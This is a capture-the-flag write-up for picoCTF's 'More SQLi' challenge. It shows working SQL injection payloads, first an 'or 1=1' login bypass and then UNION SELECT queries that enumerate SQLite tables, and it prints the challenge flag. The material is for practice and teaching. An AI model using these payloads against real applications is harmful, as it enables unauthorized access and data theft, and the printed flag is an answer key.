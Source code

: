 ## More SQLi

[Link to challenge](https://play.picoctf.org/practice/challenge/358)

Write-up:

1. We are given a login form. Attempting to login as `admin:admin` shows us the
query used: `SELECT id FROM users WHERE password = 'admin' AND username = 'admin'`

2. After trying multiple payloads, we see that setting password to `'or 1=1;--` allows
us to log in.

3. We find a table with 3 columns, and there's a hint telling us to search all tables. <br>
`' UNION SELECT sqlite_version(), 2, 3-- ` shows us we are dealing with SQLite-

4. `' UNION SELECT name, 2, 3 FROM sqlite_master WHERE type='table'-- ` lists all 
tables: `hints`, `more_table`, `offices` and `users`.

5. `' UNION SELECT sql, 2, 3 FROM sqlite_master WHERE type='table' AND name='hints'-- ` shows us: <br>
`CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)` <br>

    Displaying the hints table shows us nothing of relevance.

6. `' UNION SELECT sql, 2, 3 FROM sqlite_master WHERE type='table' AND name='more_tables'-- ` to 
display `more_tables`. It shows us the following: <br>
`CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)`

7. `' UNION SELECT id, flag, 3 FROM more_table-- ` returns the flag: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}